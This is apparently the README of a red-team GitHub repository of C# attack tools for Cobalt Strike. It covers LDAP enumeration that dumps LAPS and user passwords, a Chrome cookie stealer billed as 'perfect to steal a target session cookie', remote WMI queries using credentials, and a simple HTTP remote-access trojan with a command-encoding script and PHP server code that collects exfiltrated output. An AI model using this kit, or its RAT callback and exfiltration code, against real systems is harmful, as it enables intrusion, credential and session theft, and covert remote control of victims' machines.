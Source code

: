 # RedTeamCSharpScripts
C# Script used for Red Team. These binaries can be used by Cobalt Strike execute-assembly or as standalone executable. 


# LDAP utility

LDAP utility contains several LDAP query that will return all the valuable information you are looking for.

The utility support the following options

```
Set                 Equivalent of running set command
DumpLocalAdmin      Dump local admin on the remote system
DumpLocalGroup      Dump local group (ALL OF THEM bad idea)
CheckAdmin          Check if current user is admin
DumpTrust           Dump domain & forest trust
DumpAllUsers        Dump all the users 
DumpUser            Dump user information based on the samaccountname provided
DumpUsersEmail      Dump all users and email addresses
DumpAllComputers    Dump all computers
DumpComputer        Dump a computer information based on the name provided
DumpAllGroups       Dump all groups
DumpGroup           Dump a group information based on the name provided
DumpPasswordPolicy  Dump domain password policy
CheckManaged        Check GPOs for managedby objects    
DumpLapsPassword    Try to get LAPS password   
DumpUserPassword    Try to exact userPassword attribute
DumpRemoteSession   Dump remote active session
```

```
Usage: ldaputility.exe options domain [arguments]

ldaputility.exe Set
ldaputility.exe DumpLocalAdmin RingZer0 *optional*computername
ldaputility.exe DumpLocalGroup RingZer0 *optional*computername
ldaputility.exe CheckAdmin RingZer0 *optional*computername
ldaputility.exe DumpTrust RingZer0
ldaputility.exe DumpAllUsers RingZer0
ldaputility.exe DumpUser RingZer0 mr.un1k0d3r
ldaputility.exe DumpUsersEmail RingZer0
ldaputility.exe DumpAllComputers RingZer0 
ldaputility.exe DumpComputer RingZer0 DC01
ldaputility.exe DumpAllGroups RingZer0
ldaputility.exe DumpGroup RingZer0 "Domain Admins"
ldaputility.exe DumpPasswordPolicy RingZer0
ldaputility.exe DumpPwdLastSet RingZer0
ldaputility.exe DumpLastLogon RingZer0
ldaputility.exe CheckManaged RingZer0
ldaputility.exe DumpLapsPassword RingZer0 *optional*computername  
ldaputility.exe DumpUserPassword RingZer0   
ldaputility.exe DumpRemoteSession RingZer0  *optional*computername   
```

The `-verbose` switch can be added to get verbose output.

### The CheckManaged feature

Active Directory support the following two attributes `managedobjects` and `managedby`. These attributes can be used to assign a manager to an object. It can be a user managing a computer. There is a GPO that can be used to grant local admin to managedobjects owner. The user will not be listed as a local admin by default by the correlation between `managedby` and `managedobjects` can identify users that managed computers.

The `CheckManaged` feature first confirm the presence of the GPO in question by looking at the SYSVOL policies present on the DC. If the `groups.xml` is present, it dump all the users with a `managedobjects` attribute and the computers with a `managedby` attribute.

![managedexample](https://raw.githubusercontent.com/Mr-Un1k0d3r/RedTeamCSharpScripts/master/managed.png)

# Web Hunter 

CSharp version of the Find-Fruit utility https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Find-Fruit.ps1. Tool to query network subnet looking for valuable assets that can be exploited. 

```
webhunter.exe 192.168.1.0/24 80,443,8080,8443
```

```
webhunter.exe 192.168.1.0/24 80,443,8080,8443 -verbose
```

# Cookies Monster

Fetch Chrome cookie in plaintext. Perfect to steal a target session cookie through execute-assembly

```
Usage: CookiesMonster.exe filter
```

The filter argument is optional. If not specified it will dump all the cookies. Since the cookies are encrypted using ProtectedMemory Windows APIs you need to have access to the current user context to be able to generate the proper decryption key. 

The binary need to be compiled statically to include the System.Data.SQLite dll.

# WMI Utility

Set of predefined WMI query that can be used to query CIM classes.

The utility support the following options

```
Usage: WMIUtility.exe options [arguments]

ListProcess         Return a list of running process
ListService         List all the services
Query               Args (query, columns) wmiutility.exe Query "Select * From Win32_CommandLineAccess" "Name,Description"

ListRemoteProcess   Return a list of running process on the target host
ListRemoteService   Return a list of all the services on the target host
Get-EventForUser    Search for 4624 events targeting specific user
RemoteQuery         Args (query, columns) 
Get-Av              Return a list of potential security product

EX:
wmiutility.exe ListRemoteProcess <ComputerName> <Username> <Password>
wmiutility.exe ListRemoteService <ComputerName> <Username> <Password>
wmiutility.exe Get-EventForUser <samAccountname> <DomainController> <Username> <Password>
wmiutility.exe Get-EventForUser <samAccountname> all <Username> <Password>
wmiutility.exe RemoteQuery "Select * From Win32_CommandLineAccess" "Name,Description" <ComputerName> <Username> <Password>
```

# enumerateuser.cs

List all the users samaccountname & mail

```
execute-assembly C:\enumerateuser.exe domain
```

# ldapquery.cs

Perform custom ldap queries

```
execute-assembly C:\enumerateuser.exe ringzer0team "(&(objectCategory=User)(samaccountname=Mr.Un1k0d3r))" samaccountname,mail

Querying LDAP://ringzer0team
Querying: (&(objectCategory=User)(samaccountname=Mr.Un1k0d3r))
Extracting: samaccountname,mail
Mr.Un1k0d3r,Mr.Un1k0d3r@corp.com,
```

# simple-http-rat.cs

A simple RAT that execute command over HTTP. The code is calling back every 10 seconds and will execute the data present on the callback URL.

`rat.exe callbackurl`

The data is obfuscated using the following python trick

```
$ python -c 'import base64; print base64.b64encode("cmd.exe /c whoami")[::-1]'
=kWbh9Ga3ByYvASZ4VmLk12Y
```

The file creation can also be automated using the following script

```
import base64
import sys
import os

path = sys.argv[1]
cmd = sys.argv[2]

if os.path.exists(path):
        os.remove(path)
        
open(path, "w+").write(base64.b64encode(cmd)[::-1])
print "Command added"
```

```
update.py /var/www/html/callback.html "whoami"
```

For the post back RAT the following PHP code can be used to capture the data

```
<?php
$request = (object)array();

if($_SERVER['REQUEST_METHOD'] === "POST") {
        $request->data = file_get_contents("php://input");
        $request->ip = $_SERVER["REMOTE_ADDR"];
        $request->time = date("r");

        $data = str_replace("!)(*&#:<]", "A", $request->data);
        $decoded = base64_decode($data);

        file_put_contents("/tmp/output.txt", "[" . $request->time . "](" . $request->ip . "): " . $decoded . "\r\n", FILE_APPEND);
} else {
        echo file_get_contents("/tmp/payload.txt");
}
?>
```

# set.cs (set.exe)

C# equivalent of Windows set command that does not required to spawn cmd.exe

```
execute-assembly C:\set.exe

PROCESSOR_ARCHITEW6432=AMD64
DriverData=C:\Windows\System32\Drivers\DriverData
```

# Credit

Mr.Un1k0d3r RingZer0 Team

Tazz0 RingZer0 Team

# Contributors

@theFlinkk for the AV module
